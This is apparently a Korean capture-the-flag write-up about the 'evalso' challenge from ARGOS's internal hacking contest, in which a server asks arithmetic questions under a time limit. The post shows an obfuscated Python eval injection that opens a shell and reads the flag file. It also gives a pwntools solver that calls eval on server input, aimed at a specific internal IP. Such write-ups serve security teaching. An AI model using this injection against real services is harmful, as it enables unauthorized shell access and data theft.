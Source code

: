 ```yaml
---
layout: post
title: "[JFS] evalso"
subtitle: "이발소"
tags: jfs
comments: true
---
```


### JFS란?
	ARGOS 내부 해킹 대회

***



![evalso](https://i.imgur.com/80zwpPS.png)

evalso 라는 100점짜리 문제.

문제는 다음과 같다.

![](https://i.imgur.com/hALQ6el.png)

5초안에 문제를 풀어라(?)

![](https://i.imgur.com/EnCtCdE.png)

>내부망에서만 접근 가능한 IP다.

다음과 같이 nc 했을 때, 수식이 나오고 답을 입력하면 다음 단계로 진행된다.

![](https://i.imgur.com/GAlNpRB.png)

수식을 풀면 되는 줄 알고 python의 pwntools를 이용하여 해보려 했지만... 

10개를 풀고나니 항이 3개가 되어 곤란해졌다. 

그래서 고민하던 중 예전에 봤던 PyJail 문제가 생각나서 쉘코드를 삽입해보았다.

` __import__('subpro'+'cess').call(['/bin/sh', '-s'])`

Python에서 'subprocess'를 우회하여 '/bin/sh' 즉 쉘을 실행시키는 쉘코드이다.

실행된 쉘에서 ls를 실행했더니

`evalso.py` 라는 파일이 달랑 하나 있었다.

`cat evalso.py` 를 입력하니 (5초안에 해야한다.) 플래그가 보였다. !

`JFS{eVaL_Iz_0UR_fRi3Nd}` flag가 python 파일에 코딩되어 있었다.

100점 획득!



****

사실 이 문제는 pyjail이 아니라 built-in function을 활용하는 문제였다. 위 수식을 받아서 '=?'를 제외하고 eval이라는 함수의 인자로 넣어서 입력하면 계산된 출력되는 점을 이용하는 문제였다.(ㅋㅋㅋ)



```python
from pwn import *

p = remote("168.188.123.207", 16160)

for i in range (0, 30):
        line = p.recvline()
        print line
        if not line[0] == 'a':
                result = line[:-3]
                print result
                p.sendline(str(eval(result))) #계산된 결과를 str형태로 바꾼 후 서버에 보냄
        else:
                result = line[5:-3] #"ans = " 처리
                print result
                p.sendline(str(eval(result)))
print p.recvline()
```



다음과 같은 python 코드를 실행하면 플래그가 나온다.